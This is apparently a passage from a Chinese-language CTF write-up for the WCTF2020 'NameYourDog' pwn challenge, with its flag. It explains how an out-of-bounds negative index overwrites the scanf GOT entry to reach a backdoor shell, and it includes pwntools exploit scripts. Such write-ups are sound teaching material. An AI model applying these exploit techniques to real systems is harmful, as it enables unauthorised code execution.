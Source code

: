 ```python
namefor(0,'A')
namefor(1,'B')
namefor(2,'C')
namefor(3,'D')
namefor(7,p32(0x080485CB))

p.interactive()
```

## NameYourDog - 5 solves

>Author: ColdShield

flag:`wctf2020{Woof_wOOf_wooF}`

**程序分析**

![GnwBQJ.png](https://s1.ax1x.com/2020/03/30/GnwBQJ.png)

程序基本上和NameYourCat一模一样

唯一不同之处在于`Dogs`此时不在栈上了，而是在bss段上

此时的数组越界就变成了下标为负数时利用，从而可以任意修改程序地址空间的内容，由于程序没有开启`FULL Relo`我这里最简单的方法就是修改GOT表（不知道GOT表是啥的小伙伴也请自行百度学习233333）

我采用的方法是将`scanf`的GOT表项修改为后门函数地址，从而在后续执行到scanf的时候就直接getshell了

此时的下标计算：`(0x0804A028-0804A060)/8=-7`

**EXP**

```python
# -*- coding: utf-8 -*-
from __future__ import print_function
from pwn import *

binary = 'NameYourDog'	#binary's name here
context.binary = binary		#context here
context.log_level='debug'
pty = process.PTY
#p = process(binary, aslr = 1, stdin=pty, stdout=pty)	#process option here

Host ='0.0.0.0'
Port =2338
p = remote(Host,Port)

elf = ELF(binary)
libc = elf.libc

my_u64 = lambda x: u64(x.ljust(8, '\0'))
my_u32 = lambda x: u32(x.ljust(4, '\0'))
global_max_fast=0x3c67f8
codebase = 0x555555554000
def loginfo(what='',address=0):
	log.info("\033[1;36m" + what + '----->' + hex(address) + "\033[0m")

# todo here
def namefor(idx,name):
	p.recvuntil("which?\n>")
	p.sendline(str(idx))
	p.recvuntil('name plz: ')
	p.sendline(name)

namefor(0,'A')
namefor(1,'B')
namefor(2,'C')
```